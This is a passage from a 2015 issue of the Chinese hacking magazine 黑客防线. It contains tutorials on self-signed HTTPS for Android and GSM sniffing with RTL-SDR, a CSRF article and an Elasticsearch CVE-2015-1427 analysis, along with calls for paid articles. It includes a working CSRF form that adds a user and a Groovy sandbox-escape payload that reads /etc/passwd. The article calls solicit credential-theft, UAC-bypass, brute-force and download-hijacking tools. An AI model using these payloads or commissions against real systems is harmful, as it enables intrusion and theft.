- 运行环境：DotNet Framework 2.0、IIS7、Android 4.4

#### 证书生成

证书生成使用工具 `makecert.exe`。我机器中在如下路径中找到 `C:\Program Files\Microsoft SDKs\Windows\v6.0A\Bin`。需要注意的一点是，makecert 工具注明：证书创建工具生成仅用于测试目的的 X.509 证书。

```bash
makecert -r -n "CN=www.myTestWebSite.com" -b 01/01/2015 -e 01/01/2050 -sv myCert.pvk myCert.cer -len 2048
```

解释一下参数的意义：

- `-r`：创建自签署证书。
- `-n`：按照 X.500 标准制定证书名称。格式为 `"CN=此处为证书名称"`。我在此将我的 IP 地址作为证书名称，此名称在我的 Android 程序中并不会起到什么太特殊的作用，但我可以部署在 IIS 后将证书导入到浏览器中，这个名称就是认证证书是否是签发给该网站的依据了。
- `-b`：指定有效期的开始时间。
- `-e`：指定有效期的结束时间。
- `-sv`：指定主题的 `.pvk` 私钥文件。
- `-len`：指定生成的密钥长度（以位为单位）。

在执行 makecert 命令时，会弹出如图 1 所示的窗口，在此只需要点击“无”即可。此时，在文件夹中生成了两个文件，分别为私钥文件 `myCert.pvk` 和公钥文件 `myCert.cer`。


接下来需要通过生成的 cer 证书创建发行者证书（.spc）文件。

#### Android 远程监控技术

```bash
cert2spc myCert.cer myCert.spc
```

命令执行完成后，会生成发行者证书文件 myCert.spc。通过 pvk2pfx.exe 将发行者证书和私钥文件生成 pfx 文件，用来生成装载在 IIS 中的 pfx 文件。

```bash
pvk2pfx -pvk myCert.pvk -spc myCert.spc -pfx myCert.pfx -f
```

通过在 VS2008 中新建 WebService 项目 WebServiceForAndroid，增加一个简单的方法。

```csharp
[WebMethod]
public string getProduct(string productName) {
    return "产品名称：" + productName;
}
```

传入一个字符串参数“产品名称”，返回一个字符串“产品名称：”+ 传入的产品名称文字。

#### 服务器 IIS 中安装证书

打开 IIS7，选择服务器节点，在功能视图中选择“服务器证书”，如图 2 所示。


图 2

在“服务器证书”下，选择“导入”，在弹出的窗口中选择对应的 pfx 证书文件路径，如图 3 所示，点击确定后证书被加入了。


图 3

接下来在网站 WebSiteForAndroid 中设置 HTTPS 协议。对网站点右键，选择“编辑绑定...”，在弹出“编辑绑定”的窗口中点击“添加”按钮，弹出“添加网站绑定”窗体。“类型”下拉框中选择“https”，在“端口”中填入端口号，在“SSL 证书（S）”下拉框中选择刚添加的证书，如图 4 所示。点击“确定”按钮后，证书添加成功。


图 4

在此，我通过浏览器来测试一下效果，但此步骤只是用来测试证书是否正确安装，不管是否执行都不会影响 Android 端。

#### 浏览器端安装公钥证书

双击“myCert.cer”，在弹出窗体中点击“安装证书(I)...”按钮，在弹出窗体中，在“证书存储”页中选择“将所有的证书放入下列存储（P）”项目，在“证书存储”输入框下点击浏览，在弹出框中选择“受信任的根证书颁发机构”项目后点击“确定”，点击“下一步”后点击“完成”就成功导入到“受信任的根证书颁发机构”。

接下来还要重复上述操作，在“证书存储”输入框下点击浏览，在弹出框中选择“受信任的发布者”。在通过 makecert 生成证书时，有参数“CN=www.myTestWebSite.com”，则浏览器会验证域名必须为 www.myTestWebSite.com，否则会报错，如图 5 所示。


图 5

在 hosts 文件中添加：127.0.0.1 www.myTestWebSite.com，然后输入 URL：https://www.mytestwebsite.com:1443/WebServiceForAndroid/Service1.asmx，结果如图 6 所示。


图 6

至此，我们已经成功生成可用的证书文件，并且可以成功安装到服务器的 IIS 上了。下面我们使用 keytool.exe 生成 Android 可以使用的证书公钥文件，此文件可以在 jre 的 bin 文件夹下找到。将 bcprov-jdk15on-146.jar 复制到 keytool.exe 所在目录，执行如下命令：

```bash
keytool -importcert -v -trustcacerts -alias myCert -file d:\cert\myCert.cer -keystore d:\cert\myCert.bks -storetype BKS -providerclass org.bouncycastle.jce.provider.BouncyCastleProvider -providerpath ./bcprov-jdk15on-146.jar -storepass 123456
```

命令执行完成后，会在 d:\cert\ 目录下生成 myCert.bks 文件。下面我们来进行 Android 端的相应开发。

将刚刚生成的 myCert.bks 文件重命名为“mycert.bks”后复制到 Android 项目的 /res/raw 文件夹内。注意这里的重命名步骤，因为文件名只能是 a-z0-9 和“_”、“.”，否则会报错：res\raw\myCert.bks: Invalid file name: must contain only [a-z0-9_.]。

在 Android 端开发中，我使用了 ksoap2 进行 SOAP 协议的封包解包操作。由于代码比较长，请参见项目 AndWebService，在容易出问题的地方我写了注释。运行的结果如图 7 所示。


图 7

（完）

### 2015 年第 2 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。2015 年第 2 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

#### 1. Exchange 临时文件还原解密

对于 Exchange 邮件服务器，最新邮件最初会以临时文件形式存储于服务器上，若要实现对最新邮件的实时获取，可针对加密的临时文件进行还原，从而获取邮件。

编写程序，实现对 Exchange 临时文件的还原。

#### 2. Exchange 账户密码获取

对 Exchange 邮件系统所有用户及对应密码的抓取、还原；Exchange 邮箱系统无法直接进行数据操作，所以需要对其数据库进行提取和还原。

编写程序，实现对 Exchange 邮件系统的监控，获取邮件系统所有内建账户与密码。

#### 3. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

#### 4. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

#### 5. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 gmail、yahoo 信箱。

#### 6. Windows 7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows 7 屏幕保护密码的方法。

#### 7. 暴力破解 3389 远程桌面密码

- 要求：
- 1）针对 Windows 3389 远程桌面实现暴力破解密码；
- 2）读取指定的用户名和密码字典文件；
- 3）采用多线程；
- 4）所有函数都必须判断错误值；
- 5）使用 VC++2008 编译工具实现，控制台程序；
- 6）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7）支持 Windows XP/2003/7/2008。

### 8. WEB 服务器批量扫描破解

- 1）针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255
- 2）针对目标 Web 服务器扫描要求  
  可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：
  - Tomcat
  - Weblogic
  - Jboss
  - Apache
  - JOnAS
  - WebSphere
  - Lotus Server
  - IIS(Webdav)
  - Axis2
  - Coldfusion
  - Monkey HTTPD
  - Nginx
- 3）针对目标 Web 服务器后台扫描  
  针对目标进行后台地址搜索。
- 4）针对目标 Web 后台密码破解  
  搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

#### 9. 编写端口扫描器

- 要求：
- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

### 10. Android WIFI Tether 数据转储劫持

说明：  
WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

- 要求：
- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

#### 11. 突破 Windows 7 UAC

说明：  
编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1) Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

## 2015 年征稿启示

《黑客防线》作为一本技术月刊，已经 15 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

#### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

#### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

#### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 poc 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

#### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

#### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实力讲解。

#### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

#### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

#### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

#### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求：

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2) 在稿件末尾请注明您的账户名、银行账号、以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail: hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4) 稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5) 根据稿件质量，分为一等奖、二等奖、三等奖稿件，稿费标准如下：

| 等级 | 稿费标准 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 6) 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

# 黑客防线

在攻与防的对立统一中寻求突破

网站全新改版，欢迎访问：http://www.hacker.com.cn

总第171期 2015


### APT防护探索之异常访问检测系统

### GSM HACK之RTL-SDR

### 虚拟化与键盘记录的那些事儿

- 编写Python爬虫分析数据爬取
- Android实现文件非对称加密存储
- 无间之道：深入剖析代码破解软件
- 论.Net熟肉的正确打开方式

## 《黑客防线》3期文章目录

总第171期2015年

#### 漏洞攻防

- GSM HACK之RTL-SDR（light） ...... 3
- 浅析CSRF漏洞及防御之道（snowforest） ...... 9
- ElasticSearch Groovy命令执行漏洞分析及利用（simeon） ...... 14

#### 编程解析

- 虚拟化与键盘记录的那些事儿（Naylon） ...... 23
- 编写Python爬虫分析数据爬取（黄澄 马智超） ...... 30
- Android实现文件非对称加密存储（耿靓） ...... 36

#### 密界寻踪

- 无间之道：深入剖析代码破解软件（贾志明） ...... 40
- 论.Net熟肉的正确打开方式（木羊） ...... 46

#### 网络安全顾问

- APT防护探索之异常访问检测系统（xysky） ...... 52

- 2015年第3期杂志特约选题征稿 ...... 57
- 2015年征稿启示 ...... 60


### GSM HACK 之 RTL-SDR

文/图 light [NEURON]

本文属于《小学生科普系列》番外篇，纯科普，文中所有内容仅供学习研究，请勿用于非法用途。本文内容只讨论 GSM 数据的截获，不讨论破解。

必备常识：  
SDR：软件定义的无线电（Software Defined Radio，SDR）是一种无线电广播通信技术，基于软件定义的无线通信协议而非通过硬连线实现。  
Rtl-sdr：原身就是 Realtek RTL2832U（瑞昱的一款电视棒）。原本就只是一个电视棒，一天某大牛买了这款电视棒，想在 Linux 下看片，然而官方只有 Windows 驱动，心急火燎的他便开始着手编写 Linux 下的电视棒驱动，过程中发现这款电视棒允许原始 I/O 采样的传输，可用于 DAB/DAB+/FM 解调，于是便开始了进一步的研究。以上文字有所演绎，真实历史请参见 http://rtlsdr.org/#history_and_discovery_of_rtlsdr。

再后来这些人就开发了很多基于这块芯片，专门用于玩 SDR 的 USB 外设，统称为：  
**RTL-SDR DONGLES（http://www.rtl-sdr.com/buy-rtl-sdr-dvb-t-dongles/）**。  
作为高富帅代表的 light，当然没有选用这些土豪的玩意儿，而是淘了一款华强北山寨的硬件，如图 1 所示。


图 1

- **Gnuradio**：硬件要用作 SDR 用途，就得装它，可以简单理解为驱动。
- **Wireshark**：数据包监听、查看，都很熟悉。
- **Airprobe**：GSM 信号接收和解密。

GSM 网络默认使用 A5/1 加密算法。如果要得到原始数据，需要将截获的数据进行破解，一般是用一个大约 2T 的“彩虹表”进行碰撞，但国内 GSM 网络据说没有加密。

首先对 Kali 系统进行 `apt-get update`，但运行这条命令之前最好检查一下 `sources.list`（`/etc/apt/sources.list`）文件里有如图 2 所示的两条。


图 2

#### 安装 GNU Radio

Kali 已经预装了 gnuradio，Kali 用户可以跳过这一步。Linux 系统其他用户可以执行以下脚本安装：

```bash
apt-get install gnuradio
apt-get install gnuradio-dev
apt-get install cmake
apt-get install libusb-1.0.0-dev
apt-get install libpulse-dev
apt-get install libboost-all-dev
```

```bash
git clone git://git.osmocom.org/rtl-sdr.git
git clone git://git.osmocom.org/osmo-sdr
git clone git://git.osmocom.org/gr-osmosdr
git clone git://git.osmocom.org/csete/gqrx.git
```

```bash
mkdir sdr
cd sdr
mkdir gnuradio-src
cd gnuradio-src
```

```bash
wget http://www.sbrac.org/files/build-gnuradio
chmod a+x build-gnuradio
```

#### 安装 Airprobe

- 1）各种依赖包、依赖库（少装一个都不行！）

```bash
sudo apt-get install git-core autoconf automake libtool g++ python-dev swig libpcap0.8-dev cmake git libboost-all-dev libusb-1.0-0 libusb-1.0-0-dev libfftw3-dev swig python-numpy libpulse-dev libpcsclite-dev
```

新建一个目录来 git clone，我比较喜欢在 `/opt` 目录下安装新东西。

```bash
light@kali:~# cd /opt/
light@kali:/opt# mkdir gsm
light@kali:/opt# cd gsm/
```

- 2）安装 libosmocore

```bash
light@kali:/opt/gsm# git clone git://git.osmocom.org/libosmocore.git
```

接着：

```bash
light@kali:/opt/gsm/libosmocore# autoreconf -i
light@kali:/opt/gsm/libosmocore# ./configure
light@kali:/opt/gsm/libosmocore# make
light@kali:/opt/gsm/libosmocore# sudo make install
```

最后刷新一下动态链接库：

```bash
light@kali:/opt/gsm/libosmocore# sudo ldconfig
```

终于轮到安装 airprobe 了：

```bash
light@kali:/opt/gsm# git clone git://svn.berlin.ccc.de/airprobe
```

注意：这里有个大坑。上面的 git 地址得到的 airprobe 版本和我们的系统环境有点不搭，编译时会出错。搜索了一下，找到一个 `git://git.gnumonks.org/airprobe.git`，还是用不了。最终找到 `https://github.com/ksnieck/airprobe`，亲测 git clone 到一半也会出错，所以下脆打包成 zip 下载，成功编译。

将 airprobe 放到我们的工作目录（`/opt/gsm/`）下以后，分别进入其 `gsm-receiver` 及 `gsmdecode` 目录下执行以下命令，对 gsm 接收程序和解密程序进行编译。

```bash
./bootstrap
./configure
make
```

#### START TO HACK

中国移动 GSM 信号频段：上行/下行 `890-909/935-954MHz`，但是测试时需要相对精确的数值。怎么办？打给 10086 客服也未必知道，因为你所处位置的 GSM 频率和基站功率、距离基站距离等都有关系，而且我们的接收装置（电视棒）本身还存在 ppm offset。我们可以用一个叫 kalibrate 的工具解决这些问题。

ppm offset 或 frequency offset：频率偏移，俗称偏频，一般由于硬件信号的源宿时钟不同步造成的。

先看看 kalibrate 的基本用法：

```bash
light@kali:~# kal -h
kalibrate v0.4.1-rtl, Copyright (c) 2010, Joshua Lackey
modified for use with rtl-sdr devices, Copyright (c) 2012, Steve Markgraf
Usage:
    GSM Base Station Scan:
        kal <-s band indicator> [options]

    Clock Offset Calculation:
        kal <-f frequency | -c channel> [options]

Where options are:
    -s    band to scan (GSM850, GSM-R, GSM900, EGSM, DCS, PCS)
    -f    frequency of nearby GSM base station
    -c    channel of nearby GSM base station
    -b    band indicator (GSM850, GSM-R, GSM900, EGSM, DCS, PCS)
    -g    gain in dB
    -d    rtl-sdr device index
    -e    initial frequency error in ppm
    -v    verbose
    -D    enable debug messages
    -h    help
```

搜索附近的 GSM 基站信息，如图 2 所示：

```bash
light@kali:~# kal -s 900
```


图 2

搜到两个基站，上面一个信号比较强，频率为 946MHz，我们选用这个基站，并继续使用 kalibrate 帮助我们校准电视棒的偏频，使用 `-c` 参数加我们基站的频道号（channel）来计算出这个误差值，如图 3 所示。

```bash
light@kali:~# kal -c 55
```


图 3

得到的结果，average 为偏频的平均值，单位 kHz，`+` 表示我们的电视棒高出这么多，所以在测试时要用频率值减去这个值。下面的 ppm 值是另一种偏频单位，反而更常用，但是我们用来接收信号的软件不支持这个值的改动，所以先不做深究。

接下来打开 wireshark，注意要选择回环网卡，并在启动后选择 gsmtap 过滤器，如图 4 和图 5 所示。


图 4


图 5

接着把 wireshark 放在一边，使用 airprobe 的 `gsm_receive_rtl` 模块来接收 GSM 信号。注：Airprobe 默认只支持下行的非跳频（non-hopping）窄频通信号，如果想要监听上行信号，可以尝试一下插两条电视棒同时工作。

首先进入目录：`/opt/gsm/airprobe/gsm-receiver/src/python`，输入以下命令，打开一个动态的波形图。

```bash
light@kali:/opt/gsm/airprobe/gsm-receiver/src/python# ./gsm_receive_rtl.py -s 1e6 -f 946M
```

参数解释：`-s` 采样率，默认为 1800000，但实践证明 1000000 的采样率采样效果更好，`1e6` 的写法表示 1 后面有 6 个 0，大家上小学用的计算器上应该见过这种表示方法。`-f` 频率，不用多说。还有个常用的参数是 `-c`，配置控制信道类型。控制信道（CCH）：用于传送信令或同步数据。主要有三种：广播信道（BCCH）、公共控制信道（CCCH）和专用控制信道（DCCH）。

#### Airprobe 支持的控制类型

- `0C`：TimeSlot0 "Combined configuration", with SDCCH/4  
  (FCCH + SCH + BCCH + CCCH + SDCCH/4)
- `0B`：TS0 "FCCH + SCH + BCCH + CCCH"
- `1S`：TS1 SDCCH/8
- `2T`：TS2 (Full Rate) Traffic
- `1TE`：TS1 Enhanced Full Rate Traffic

理论上，你用频率值减去偏频值得到的数字，放 `gsm_receive_rtl` 的 `-f` 参数中，或者直接输入频率值，在打开的波形图中鼠标点击波峰偏左一点的位置，就可以接收到信号。但现实往往是残酷的，你会发现打开波形图经常都是图 6 这样的。


图 6

波峰距离原点十万八千里！这种情况下，不管你怎么点，点哪里，在 wireshark 里都看不到任何东西。这时候需要我们小幅修改频率值，将波峰尽量微调至处在原点附近。比如我就是在将 kalibrate 获取的基站频率值减少了 1MHz 后，波峰调到了原点附近，wireshark 也随之出数据了，如图 7 所示。


图 7

有了数据，接下来大家就自由发挥吧，点到为止。  
Kali 还自带了一个好玩的东西，叫 gqrx，一款基于 GNU Radio 和 Qt 的 SDR 工具。我们可以用它来收听广播或者收听 GSM 信号传输的声音，如图 8 所示。


图 8

PS：听到我耳朵都快长茧子了，也只是沙沙声和蜂鸣声，难道有干扰信号？说好的不加密呢？

用来接收 GSM 信号还有很多方法可以尝试，比如 Kali 自带的 `rtl_sdr`、开源的 `arfcncalc` 等工具。加密的 GSM 破解目前主要还是靠 Airprobe，但是“可能”还没有实现实时解密，只能先截获并存储成一个 cfile 文件，再解出语音文件等。

最后值得一提的是，GSM 的破解已经出现在老外的 CTF 中，如 RuCTF 2014 Quals-Misc 500-GSM，题目中的 GSM 还是加密的，需要找到 KC 码来进行破解，有兴趣的同学可以参看这篇 writeup：  
http://piggybird.net/2014/03/ructf-2014-quals-misc-500-gsm-writeup/。

### 浅析 CSRF 漏洞及防御之道

文/图 snowforest

CSRF（Cross-site request forgery，跨站请求伪造，也被称为 “one click attack” 或者 session riding，通常缩写为 CSRF 或者 XSRF），是一种对网站的恶意利用，尽管听起来像跨站脚本（XSS），但它与 XSS 非常不同，并且攻击方式几乎相左。XSS 利用站点内的信任用户，而 CSRF 则通过伪装来自受信任用户的请求来利用受信任的网站。与 XSS 攻击相比，CSRF 攻击往往不大流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比 XSS 更具危险性。

#### 漏洞利用原理


图 1

如图 1 所示，正常访问登录受信任网站 A，并在本地生成 Cookie。在不登出 A 的情况下，访问危险网站 B，从而形成 CSRF。

#### 漏洞产生原因

产生 CSRF 漏洞主要原因有：一方面开发者不够审慎，编写的 Web 应用程序存在漏洞导致被利用；另一方面是因为 Web 浏览器对于 Cookie 和 HTTP 身份认证等会话信息的处理存在一定缺陷。主要表现在执行某个功能操作（如修改密码、添加关注）前未对原始跳转连接进行同源策略检查、关键请求未进行验证码验证、请求地址未加随机 token 进行验证。

#### CSRF 漏洞检查

- 1）检查是否有 Referer 验证

实例演示（kesionCMS 7.0 后台添加注册用户过程）

正常提交过程如图 2 所示。


图 2

去掉 Referer 字段检验能否正常提交，如图 3 所示。

```http
POST /admin/KS.User.asp HTTP/1.1
Host: 172.16.183.136:81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:34.0) Gecko/20100101 Firefox/34.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: ...
X-Forwarded-For: 127.0.0.1
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 371

GroupID=2&locked=0&UserName=test&Email=test%40qq.com&Password=test123...
```

图 3

删除 Referer 字段后，仍可正常提交，如图 4 所示。


图 4

在此检查过程中，无 Referer 验证，同时无验证码，基本判定存在 CSRF 漏洞。

- 2）查看是否有验证码验证

检查进行操作后是否有随机验证码产生，如果存在随机验证码，CSRF 漏洞将难以利用。

- 3）检查是否有随机 token

检查请求过程中是否会产生随机 token 令牌，如果存在，无疑增加了 CSRF 漏洞的利用难度。如图 5 所示。


图 5

- 4）CSRF 漏洞危害利用演示

演示环境：kesionCMS 7 增加注册用户触发 CSRF 漏洞。

利用 PoC：

```html
<form action="http://172.16.183.136:81/admin/KS.User.asp" method="post">
<input type=hidden name=GroupID value=2>
<input type=hidden name=locked value=0>
<input type=hidden name=UserName value=test>
<input type=hidden name=Email value=test@qq.com>
<input type=hidden name=Password value=test123>
<input type=hidden name=PwdConfirm value=test123>
<input type=hidden name=Question value="我的宠物名字?">
<input type=hidden name=Answer value=1>
<input type=hidden name=ChargeType value=1>
<input type=hidden name=RealName value=test>
<input type=hidden name=HomeTel value=0108-809111>
<input type=hidden name=Province value='北京市'>
<input type=hidden name=City value='北京市'>
<input type=hidden name=HomePage value=''>
<input type=hidden name=Action value='SaveAdd'>
<script language=javascript>
document.forms[0].submit()
</script>
</form>
```

将以上代码保存为 `csrf.html` 放入 B 站，当 A 站管理员不慎访问了 B 站，`csrf.html` 将会自动在 A 站后台新建用户名为 test 的账户。如图 6 和图 7 所示。


图 6


图 7

#### CSRF 漏洞防御

- 1. 检查 HTTP 头部 Referer 信息，这是防止 CSRF 的最简单、容易实现的一种手段。根据 RFC 对于 HTTP 协议里面 Referer 的定义，Referer 信息跟随出现在每个 HTTP 请求头部。Server 端在收到请求之后，可以去检查这个头信息，只接受来自本域的请求而忽略外部域的请求，这样就可以避免很多风险。
- 2. 使用一次性令牌，这是当前 Web 应用程序设计人员广泛使用的一种方式。方法是对于 GET 请求，在 URL 里面加入一个令牌；对于 POST 请求，在隐藏域中加入一个令牌。这个令牌由 Server 端生成，由编程人员控制在客户端发送请求的时候使请求携带本令牌，然后在 Server 端进行验证。
- 3. 使用验证码，在提交操作前需要输入验证码，防止恶意请求。
- 4. 部署 Web 应用防火墙、下一代防火墙等平台性 Web 防护设备。

### Elasticsearch Groovy 命令执行漏洞分析及利用

文/图 simeon

Elasticsearch 是一个 Java 开发的搜索分析引擎，号称第二最流行的企业搜索引擎，官方站点 http://www.elasticsearch.org/，安全公告 http://www.elasticsearch.org/community/security/。2015 年 02 月 17 日曾经被曝出过一个远程代码执行漏洞（CVE-2014-3120），今年又爆出一个远程代码执行漏洞（CVE-2015-1427）。Elasticsearch 是一个基于 Lucene 的搜索服务器，提供了一个分布式多用户能力的全文搜索引擎，基于 RESTful Web 接口。Elasticsearch 是用 Java 开发的，并作为 Apache 许可条款下的开放源码发布。Elasticsearch 用了两个危险性非常高的脚本引擎 MVEL 和 Groovy，由于搜索引擎支持使用脚本代码（MVEL 和 Groovy），且沙盒安全处理不严格，导致本次漏洞。

#### CVE-2015-1427 Groovy 命令执行漏洞

2015 年 02 月 17 日，CNNVD 公布了 Elasticsearch 编号为 “CVE-2015-1427” 的漏洞，官方描述如下：  
“Elasticsearch versions 1.3.0-1.3.7 and 1.4.0-1.4.2 have vulnerabilities in the Groovy scripting engine. The vulnerabilities allow an attacker to construct Groovy scripts that escape the sandbox and execute shell commands as the user running the Elasticsearch Java VM.”  
（Elasticsearch 版本 1.3.0-1.3.7 和 1.4.0-1.4.2 在 Groovy 脚本引擎中存在漏洞。该漏洞允许攻击者构建 Groovy 脚本逃离沙盒，并以运行 Elasticsearch Java VM 的用户身份执行 shell 命令。）  
本次 Elasticsearch 1.3.0-1.3.7 和 1.4.0-1.4.2 的 Groovy 脚本引擎存在漏洞。这个漏洞允许攻击者构造 Groovy 脚本绕过沙箱检查执行 shell 命令。

##### 1. 受影响版本

- cpe:/a:elasticsearch:elasticsearch:1.4.2
- cpe:/a:elasticsearch:elasticsearch:1.4.0
- cpe:/a:elasticsearch:elasticsearch:1.3.7
- cpe:/a:elasticsearch:elasticsearch:1.4.0:beta1
- cpe:/a:elasticsearch:elasticsearch:1.4.1

##### 2. 可利用 POC

目标地址 http://www.antian365.com:9200/_search?pretty，通过 Firefox 便携版本的 HackBar，允许 POST 提交数据。POST 提交以下数据即可获取 passwd 文件信息。对于 Windows 版本，换成 Windows 下相关命令即可，`whoami` 命令通用。

```json
{"size":1,"script_fields":{"test#":{"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang":"groovy"}}}
```

##### 3. 修复方法

建议用户更新到最新版本。如果不想升级版本，也可以通过修改 `config/elasticsearch.yml` 的 `script.groovy.sandbox.enabled` 为 `false`。

#### CVE-2014-3120 MVEL 命令执行漏洞

2014 年 5 月，MVEL 爆出命令执行漏洞（漏洞编号 CVE-2014-3120，http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120）。Elasticsearch 用的脚本引擎是 MVEL，这个引擎没有做任何防护或沙盒包装，所以可以直接执行任意代码。而在 Elasticsearch 里，默认配置是打开动态脚本功能的，因此用户可以直接通过 HTTP 请求执行任意代码。漏洞利用方法可以参考文章《elasticsearch 漏洞利用工具套装》(http://www.freebuf.com/tools/38025.html)。

##### 1. 检测方法

可以到 http://tool.scanv.com/es.html 进行在线检测，可以检测任意地址。  
http://bouk.co/blog/elasticsearch-rce/poc.html 只检测 localhost，不过会输出 `/etc/hosts` 和 `/etc/passwd` 文件内容到网页上。  
也可以保存以下代码进行检测：

```bash
